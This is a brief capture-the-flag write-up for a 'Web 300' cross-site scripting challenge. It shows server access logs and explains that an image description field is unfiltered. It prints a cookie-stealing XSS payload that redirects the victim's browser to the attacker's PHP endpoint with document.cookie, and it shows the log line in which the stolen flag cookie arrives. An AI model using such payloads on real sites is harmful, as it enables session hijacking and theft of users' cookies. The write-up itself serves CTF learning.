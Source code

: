 ##Web 300

it was a fairly easy challenge. 

First, you need to check if the link submitted connects to your server/system.

```
173.245.54.59 - - [20/Sep/2014:15:17:38 +0000] "GET /trace.php HTTP/1.1" 200 31 "-" "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) PhantomJS/1.9.0 Safari/534.34"
```

From your instinct of how xss challenges are made, it has to be considered as a xss challenge. (The user-agent sent from the server is PhantomJS, which is an automated script from the browser)

After thinking and trying few tests, I guessed out that the url is the image file, and the string after hashtag can be the description of the file.
thinking for a couple of seconds, you will realize that descriptions in most of cases are not filtered in a real-life situation and it can be xss'd.

By few trials of inserting a simple xss payload like <script>document.location.href='~~~.php?cookie='+document.cookie;</script>, you will be able to get the flag.

```
173.245.54.59 - - [20/Sep/2014:15:32:20 +0000] "GET /pwn.php?cookie=win=%22flag%7Bthese_browser_bots_are_annoying%7D%22 HTTP/1.1" 404 134 "http://54.86.199.163:7878/" "Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) PhantomJS/1.9.0 Safari/534.34"
```